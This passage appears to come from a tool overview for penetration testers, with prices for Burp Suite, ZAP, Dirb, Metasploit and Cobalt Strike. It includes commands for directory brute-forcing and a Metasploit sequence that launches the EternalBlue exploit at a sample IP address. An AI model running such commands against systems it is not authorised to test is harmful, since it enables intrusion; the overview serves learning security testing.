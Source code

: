 ### **Burp Suite - Web Security Testing Platform**
**Professional Edition Investment**: ~$400/year
**Community Edition**: Free

Key features:
- Proxy and intercepting requests
- Automated vulnerability scanning
- Intruder for brute force attacks
- Repeater for manual testing

### **OWASP ZAP - Free Alternative**
```bash
# Command line scanning
zap-cli quick-scan --self-contained http://target.com
```

### **Dirb/Dirbuster - Directory Enumeration**
```bash
# Directory bruteforcing
dirb http://target.com /usr/share/wordlists/dirb/common.txt

# With custom wordlist
dirb http://target.com /path/to/wordlist.txt
```

## Exploitation Frameworks 💥

### **Metasploit Framework**
The most comprehensive exploitation framework.

```bash
# Start Metasploit
msfconsole

# Search for exploits
search type:exploit platform:windows

# Use an exploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
exploit
```

**Metasploit Pro Investment**: $15,000+/year for enterprise
**Community Edition**: Free

### **Cobalt Strike**
Premium red team framework.
**Investment**: $3,400/year per user
**ROI**: High for professional red team operations

## Wireless Security Tools 📶
